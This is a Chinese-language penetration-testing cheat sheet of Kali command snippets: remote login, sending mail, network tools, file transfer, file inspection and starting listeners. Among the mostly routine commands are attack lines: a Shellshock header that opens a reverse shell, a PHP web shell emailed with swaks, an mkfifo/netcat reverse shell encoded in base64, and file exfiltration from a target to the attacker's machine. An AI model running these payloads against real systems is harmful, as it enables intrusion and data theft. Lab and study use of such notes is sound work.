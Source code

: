 #### <font color="#7030a0">遠端登入</font>
SSH
```bash
ssh-keygen -t rsa
cp ~/.ssh/id_rsa.pub authorized_keys

chmod 600 id_rsa
ssh -i id_rsa root@10.10.10.10
ssh za.example.local\\popo.chen@wk1.example.local
ssh example.local\\Administrator@10.10.10.10

ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" root@10.10.10.10

# 指定演算法
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 user@10.10.10.10
ssh -oHostKeyAlgorithms=+ssh-rsa user@10.10.10.10
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa user@10.10.10.10 -p 2222
ssh -o HostKeyAlgorithms=+ssh-dss -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.10
```
遠端桌面
```bash
xfreerdp /cert-ignore /size:87% /v:10.10.10.10 /u:帳號 /p:密碼
xfreerdp /cert-ignore /size:87% /v:10.10.10.10 /u:'domain\Administrator' /p:Password123
xfreerdp /cert-ignore /size:87% /v:10.10.10.10 /d:example.com /u:jeff /p:'Password123!'

rdesktop 10.10.10.10 -g 93% -u administrator -p Password321
```
Telnet
```bash
telnet 10.10.10.10

GET / HTTP/1.1
GET /page.html HTTP/1.1
```

#### <font color="#7030a0">發送mail</font>
```bash
sudo swaks -t aa@xx.com --from send@xx.com --attach @config.Library-ms --server 10.10.10.10 --body "read me" --header "Subject: title" --suppress-data -ap
sudo swaks -t bb@xx.com --from send@xx.com --attach @config.Library-ms --server 10.10.10.10 --body @body.txt --header "Subject: title" --suppress-data -ap
sudo swaks --to aa@xx.com --from send@xx.com --header "Subject: test" --body 'check: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.10
```

#### <font color="#7030a0">網路常用</font>
DNS解析
```bash
dig example.com @8.8.8.8
```
whois解析 (tcp/43)
```bash
whois example.com
```
traceroute
```bash
sudo traceroute -T 8.8.8.8

# -i : 指定介面
# -T : 使用TCP SYN請求
```
tcpdump
```bash
sudo tcpdump ip proto \\icmp -i tun0
sudo tcpdump -nnvvvAi tun0 udp port
sudo tcpdump port 110 -A

# -A : 以ASCII格式顯示捕獲封包
```
curl
```bash
curl http://10.10.10.10/
curl -H 'Host: xxx.example.com' http://10.10.10.10/

# post
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=xxxxxxx" -d "command=whomai" http://10.10.10.10/

# 檔案上傳
curl -F 'img_avatar=@/home/kali/hello.txt' http://10.10.10.10/upload
curl -F "action=upload" -F "filename=@file.tar" http://10.10.10.10/upload
curl -F file=@test.txt -F filename="/home/target/.ssh/test.txt" http://10.10.10.10/upload
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F "file=@/home/kali/test.txt" -F "filename=/home/target/test.txt" http://10.10.10.10/upload

# 帶入cookie 設定header
echo "Cookie: testing=1" > cookie
curl -k -H 'User-Agent: () { :; };/bin/bash -i > /dev/tcp/10.10.10.10/443 0<&1 2>&1' -H "Content-Type: application/x-www-form-urlencoded" -H @cookie -X POST -d "k=v" http://10.10.10.10/
```
如果使用了`-F`參數，curl就會以 `multipart/form-data` 的方式傳送POST請求。
-F參數以`name=value`的方式來指定參數內容，如果值是一個檔案，則需要以`name=[@file](https://my.oschina.net/u/726396)`的方式來指定。

#### <font color="#7030a0">檔案傳輸</font>
SCP傳檔案
```bash
scp test.txt user@192.168.1.1:/home/user/test.txt
scp -r target@10.10.10.10:/home/target/ ~/target/
```
NC傳檔案
```bash
# kali端
nc -lvnp 9002 > myfile
# 目標端
nc 192.168.1.1 9002 < /tmp/myfile
```
網頁目錄下載
```bash
wget 10.10.10.10/socat -O /tmp/socat
wget -r -np http://10.10.10.10/.git/ 
```
利用 uploadserver 從目標上傳檔案到kali
```sh
# kali端:
pip install uploadserver
python3 -m uploadserver

# 目標端:
curl -X POST http://10.10.10.10:8000/upload -F "files=@myfile.zip"
```
#### <font color="#7030a0">檔案相關</font>
7z解壓縮
```bash
sudo apt install -y p7zip-full 
7z x file.zip
7z x "test.zip" -o"test/" -p"password"
```
查看檔案的Metadata/EXIF資料
```bash
sudo apt install libimage-exiftool-perl
exiftool -a -u *.pdf
exiftool test.jpg
```
查看PDF的Metadata資料
```bash
sudo apt install poppler-utils
pdfinfo test.pdf
```
完整性檢查
```bash
md5sum test.exe
sha1sum test.exe
sha256sum test.exe
```
隱寫術(讀取圖片中的資料)
```bash
sudo apt-get install -y steghide
steghide extract -sf test.jpg
```
Microsoft Access Database讀取套件
```bash
sudo apt install -y mdbtools
# 讀取資料表名稱
mdb-tables backup.mdb
# 讀取那些資料表(非空值)
mdb-tables backup.mdb | tr ' ' '\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done
# 匯出資料
mdb-export backup.mdb auth_user
```
Outlook PST讀取套件
```bash
sudo apt install -y pst-utils
# 解出pst檔案
readpst -r file.pst
```
安裝 olevba 工具 https://github.com/decalage2/oletools
用來讀取 office文件的巨集
```bash
git clone https://github.com/decalage2/oletools.git
cd oletools && sudo -H python setup.py install
# 讀取vba
olevba myfile.xlsm 
```

#### <font color="#7030a0">啟動服務</font>
啟動服務監聽
```bash
sudo responder -I tun0
```
python web
```bash
python3 -m http.server 80
python2 -m SimpleHTTPServer 80
```
php webserver
```
sudo php -S 127.0.0.1:80
```

使用nc建立一個http監聽器
```bash
while true; do (echo -e 'HTTP/1.1 200 OK\r\n'; echo -e "\n\tMy website has date function" ; echo -e "\t$(date)\n") | nc -lp 8080; done
nc -lvp 80
```
wsgidav
```bash
pip3 install wsgidav
mkdir /home/kali/webdav
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

# cadaver是一個webdav連線工具，使用起來跟ftp很像
cadaver http://10.10.10.10/webdav

# 或者可以使用這樣上傳
└─$ curl -T shell.php http://10.10.10.10/webdav/ -u myname:mypasswrod
```
#### <font color="#7030a0">其他常用</font>
python建立虛擬環境
https://medium.com/ai-for-k12/python-%E7%9A%84-virtualenv-%E8%99%9B%E6%93%AC%E7%92%B0%E5%A2%83%E5%AE%89%E8%A3%9D%E8%88%87%E4%BD%BF%E7%94%A8-8645f5884aac
```bash
virtualenv -p python myvenv
source myvenv/bin/activate
pip install impacket
pip install pycrypto
```

```
sudo apt-get install virtualenv
virtualenv -p python2.7 venv
. venv/bin/activate
```

```
python.exe -m pip install virtualenv
python.exe -m virtualenv venv
venv\Scripts\activate
```
#### <font color="#7030a0">kali切換terminal模式</font>
快捷鍵 `Ctrl + p`
```bash
┌──(kali㉿kali)-[~]
└─$ 

kali@kali:~$
```

base64會換行的問題
```
└─$ echo -n 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 443 >/tmp/f' | base64  
cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMg
MTkyLjE2OC4xLjEgNDQzID4vdG1wL2Y=

└─$ echo -n 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 443 >/tmp/f' | base64 -w 0
cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4xLjEgNDQzID4vdG1wL2Y=
```
-w 每隔多少字進行一次換行，0代表不換行

